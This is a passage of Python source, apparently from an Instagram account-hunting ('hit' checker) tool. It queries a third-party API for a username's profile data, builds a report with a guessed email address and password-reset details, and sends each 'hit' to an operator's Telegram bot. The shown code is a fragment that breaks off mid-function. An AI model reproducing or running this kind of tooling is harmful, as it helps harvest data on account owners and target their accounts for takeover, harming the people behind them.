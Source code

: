 os.system('clear')

def info(username,jj):
	global hits
	hits+=1
	oo = f"-1::{username}"
	ee = base64.b64encode(oo.encode('utf-8')).decode('utf-8')
	headers = {
	        'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
	    }
	    	
	rr = requests.get(f'https://instanavigation.net/api/v1/stories/{ee}', headers=headers).json()
	id = rr['user_info']['id']
	usern = rr['user_info']['username']
	full = rr['user_info']['full_name']
	ip = rr['user_info']['is_private']
	iv = rr['user_info']['is_verified']
	posts = rr['user_info']['posts']
	followers = rr['user_info']['followers']
	following = rr['user_info']['following']
	date = Instagram.date(id)
	rrr = Instagram.rest(username)
	try:
		ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Followers ⌉  :  {followers}
	⌊ Following ⌉  :  {following}
	⌊ Username ⌉  :  {username}
	⌊ Posts ⌉  :  {posts}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Date ⌉  :  {date}
	⌊ Rest ⌉  :  {rrr}
	════════════════
	≣ By @FFNZZ 
	        """
	        		
		requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	  	
	except:
		ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Username ⌉  :  {username}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Rest ⌉  :  {rest(username)}
	════════════════
	≣ By @FFNZZ
	        """
	        		